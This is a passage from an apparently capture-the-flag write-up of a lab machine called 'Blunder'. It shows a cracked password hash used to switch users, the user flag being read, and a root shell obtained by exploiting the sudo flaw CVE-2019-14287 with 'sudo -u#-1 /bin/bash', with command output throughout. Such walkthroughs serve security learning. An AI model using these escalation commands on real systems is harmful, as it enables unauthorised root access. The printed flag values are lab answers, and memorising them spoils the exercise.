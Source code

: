 ~~~
        "gitlab": ""}
}
~~~

The hash (`faca404fd5c0a31cf1897b823c695c85cffeb98d`) corresponds to `Password120` (https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d). Let's switch to `hugo`:

~~~
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ id
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
~~~

## User flag

Now, we can get the user flag:

~~~
hugo@blunder:~$ cat /home/hugo/user.txt
fce4e1ae48b2333b6d46379152876f66
~~~

User flag: `fce4e1ae48b2333b6d46379152876f66`

# Root flag

## Escalation

Checking `hugo`'s privileges with `sudo -l` indicates that we are allowed to execute `/bin/bash` as any user but root:

~~~
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
~~~

However, we can exploit CVE-2019-14287 (https://www.exploit-db.com/exploits/47502) and elevate to `root`:

~~~
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
~~~
